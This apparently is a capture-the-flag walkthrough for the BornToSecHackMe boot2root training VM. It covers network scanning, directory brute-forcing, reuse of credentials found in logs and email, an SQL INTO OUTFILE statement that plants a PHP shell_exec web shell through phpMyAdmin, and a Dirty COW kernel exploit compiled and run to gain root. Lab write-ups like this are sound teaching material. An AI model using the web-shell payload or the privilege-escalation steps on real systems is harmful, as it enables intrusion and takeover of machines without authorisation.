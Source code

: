 ## Searching IP address of out virtual machine.

``
ifconfig - needed for searching IP. 
``

![
vmnet8: flags=8863<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 1500
	ether 00:50:56:c0:00:08
	inet 172.16.101.1 netmask 0xffffff00 broadcast 172.16.101.255
](/imgs/img1.png)

## Using nmap to find info about our IP address.
``
nmap 172.16.101.1-255
``

![
PORT   STATE SERVICE
22/tcp open  ssh
Nmap scan report for 172.16.101.128
Host is up (0.0012s latency).
Not shown: 994 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
Nmap done: 255 IP addresses (2 hosts up) scanned in 27.37 seconds
](/imgs/img2.png)
``172.16.101.128 IP of our VM``

## Checking links by address.
``git clone https://github.com/v0re/dirb.git``

### Install and use dirb
```
cd dirb
./confgiure
make
```
``./dirb https://172.16.101.128/ wordlists/common.txt``

## Checking links of forum.
After logging in to the forum, we find a branch of 'Probleme login?'.
Walking through the logs we find two lines:

### The first input was supposed to be confused lines for login and password.
![
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
](/imgs/img3.png)

### In the second login was correct.
![
Oct 5 09:21:01 BornToSecHackMe CRON[9111]: pam_unix(cron:session): session closed for user lmezard 
](/imgs/img4.png)

## Attempt to enter the e-mail with the received login and password.
Follow the link ``https://172.16.101.128/webmail/src/login.php``
With login ``lmezard`` and password ``!q\]Ej?*5K5cy*AJ`` not working.
Trying to search login ``lmezard`` in google :
![
Google info about lmezard. Laurie Mezard
](/imgs/img5.png)
We were given the full name Laurie Mezard. Trying different options for login.
The option we need is `` laurie@borntosec.net``.
Enter the email `` login: laurie@borntosec.net` and `` password:! !q\]Ej?*5K5cy*AJ``
Searching info in mail we find a letter:
![
Hey Laurie,
You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$
Best regards.
](/imgs/img6.png)
Find the password and login for the database ``login: root`` and ``password: Fg-'kKXBj87E:aJ$``

## Attempt to login phpmyadmin.
Follow thi link ``https://172.16.101.128/phpmyadmin/``
With login and password we enter in the database.
After searching the network, we find an exploit for db.
``select "<?php $output = shell_exec('cat /home/LOOKATME/password'); echo $output ?>" into outfile "/var/www/forum/templates_c/pokemon.php"``
Go to the sqltab in the same phpmyadmin window to which we are logged in.
Execute the script.
Script created a new template for the link ``https://172.16.101.128/forum/templates_c/pokemon.php`` where we can find ``lmezard:G!@M6f4Eatau{sF"``.

## Attempt to connect by ftp.
``ftp 172.16.101.128``
``login: lmezard``
``password: G!@M6f4Eatau{sF"``
Login was successful, checking the directory:
![
README.md
fun
](/imgs/img7.png)
Now we downloading file ``get fun ~/boot2root/fun``
In the file a lot of different information, if you look at the file type ``file fun`` we found out that file is an archive.
Unzip the archive ``tar xvf fun``
We receive the whole folder with different files. When viewing each file, we recognize that
there is a line with a license plate and a piece of code.
We use a small script that will collect everything from the files, sort it and then create a new main.c file.
``python unpack.py``
``gcc main.c``
``./a.out``
After run we get:
 ![
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
](/imgs/img8.png)
Encrypt it in SHA-256 and get:
``330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4``
## Attempt to login via ssh.
``ssh laurie@172.16.101.128``
``login: laurie``
``password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4``
Login was success.
Now we need to find out what kind of server it is to correctly google exploit for root.
``uname -r`` -> 3.2.0-91-generic-pae
``cat /etc/*-release`` -> DISTRIB_DESCRIPTION="Ubuntu 12.04.5 LTS"
With the obtained data, we do a search in Google and find this [link](https://www.exploit-db.com/exploits/40839).
Create this script on the server, we did it through vim.
``touch pokemon.c``
``vim pokemon.c`` -> ``CMD + C`` -> ``CMD + V``
``gcc -pthread pokemon.c -o dirty -lcrypt && ./dirty``
Now we set some password.
``su firefart``
# U are root.

















